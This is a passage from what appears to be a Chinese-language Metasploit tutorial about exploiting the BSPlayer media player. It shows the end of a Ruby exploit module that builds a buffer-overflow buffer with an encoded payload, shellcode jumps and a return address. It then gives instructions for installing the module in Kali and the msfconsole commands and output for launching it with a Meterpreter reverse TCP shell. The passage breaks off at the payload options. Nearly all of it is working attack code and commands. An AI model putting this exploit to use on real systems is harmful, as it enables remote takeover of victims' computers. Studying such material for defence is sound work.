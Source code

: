 ```
    sploit << payload.encoded
    sploit << "\xcc" * (6787 - 2048 - payload.encoded.length)
    sploit << "\xe9\x85\xe9\xff\xff"
    sploit << "\xeb\xf9\x90\x90"
    sploit << [target.ret].pack('V')
    client.put(sploit)
    client.get_once
    client.put(sploit)
    handler(client)
    service.close_client(client)
  end
end
```

## 上传渗透脚本bsplayer_attack_by_binghe.rb

将渗透脚本bsplayer_attack_by_binghe.rb上传到Kali的/usr/share/metasploit-framework/modules/exploits/windows/masteringmetasploit目录下

## 运行渗透脚本bsplayer_attack_by_binghe.rb

```
msfconsole
use exploit/windows/masteringmetasploit/bsplayer_attack_by_binghe 
set SRVHOST 192.168.109.137
set SRVPORT 8080
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 8888
show options
exploit
```

具体操作效果如下：

```
msf > use exploit/windows/masteringmetasploit/bsplayer_attack_by_binghe 
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > set SRVHOST 192.168.109.137
SRVHOST => 192.168.109.137
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > set SRVPORT 8080
SRVPORT => 8080
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > set LHOST 192.168.109.137
LHOST => 192.168.109.137
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > set LPORT 8888
LPORT => 8888
msf exploit(windows/masteringmetasploit/bsplayer_attack_by_binghe) > show options

Module options (exploit/windows/masteringmetasploit/bsplayer_attack_by_binghe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.109.137  yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)


Payload options (windows/meterpreter/reverse_tcp):

```